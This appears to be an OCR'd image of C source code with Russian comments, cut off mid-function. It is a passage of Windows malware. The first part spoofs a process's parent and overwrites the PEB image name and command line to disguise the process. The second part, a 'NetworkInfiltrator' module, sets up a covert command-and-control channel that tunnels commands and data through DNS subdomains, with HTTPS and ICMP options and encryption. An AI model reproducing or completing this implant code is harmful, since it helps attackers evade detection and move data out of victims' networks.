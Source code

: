     // Устанавливаем атрибут PARENT_PROCESS
    UpdateProcThreadAttribute(si.lpAttributeList, 0,
        PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess,
        sizeof(HANDLE), NULL, NULL);
    
    // 2. Модификация PEB для маскировки имени
    SetPEBImagePathName(lpTargetProcess);
    
    // 3. Модифицируем командную строку в PEB
    SetPEBCommandLine(lpTargetProcess);
    
    return TRUE;
}

// Модификация PEB для сокрытия имени исполняемого файла
BOOL SetPEBImagePathName(LPCWSTR lpTargetProcess) {
    // Получаем указатель на PEB текущего процесса
    PPEB pPeb = NtCurrentPeb();
    
    // Подменяем имя образа
    if (pPeb && pPeb->ProcessParameters) {
        RtlInitUnicodeString(&pPeb->ProcessParameters->ImagePathName, lpTargetProcess);
        RtlInitUnicodeString(&pPeb->ProcessParameters->CommandLine, lpTargetProcess);
    }
    
    return TRUE;
}

 NetworkInfiltrator — Модуль сетевого проникновения

 // Современная DNS-туннелирование система с TLS-обфускацией
typedef struct _COVERT_CHANNEL {
    BYTE ChannelType;           // 0 = DNS, 1 = HTTPS, 2 = ICMP
    BYTE EncryptionType;        // 0 = XOR, 1 = AES, 2 = ChaCha20
    BYTE* EncryptionKey;
    DWORD KeyLength;
    LPSTR RemoteEndpoint;       // Конечная точка C2 сервера
    DWORD PollingInterval;      // Интервал опроса в миллисекундах
} COVERT_CHANNEL, *PCOVERT_CHANNEL;

// Инициализация стеганографического DNS-туннеля 
BOOL InitializeDNSTunnel(PCOVERT_CHANNEL pChannel) {
    // Случайно сгенерированное имя поддомена для запросов
    CHAR randomSubdomain[16] = {0};
    GenerateRandomAlphanumeric(randomSubdomain, 12);
    
    // Формат: [12-символьный ID].[команда].[данные].[C2домен]
    // Пример: a7db3c9f4e12.cmd.01a2b3c4d5e6f7.example.com
    CHAR dnsTemplate[128];
    sprintf_s(dnsTemplate, "%s.%%s.%%s.%s", 
              randomSubdomain, pChannel->RemoteEndpoint);
    
    // Сохраняем шаблон в структуру канала
    size_t templateLen = strlen(dnsTemplate) + 1;
    pChannel->RemoteEndpoint = (LPSTR)LocalAlloc(LPTR, templateLen);
    if (!pChannel->RemoteEndpoint) return FALSE;
    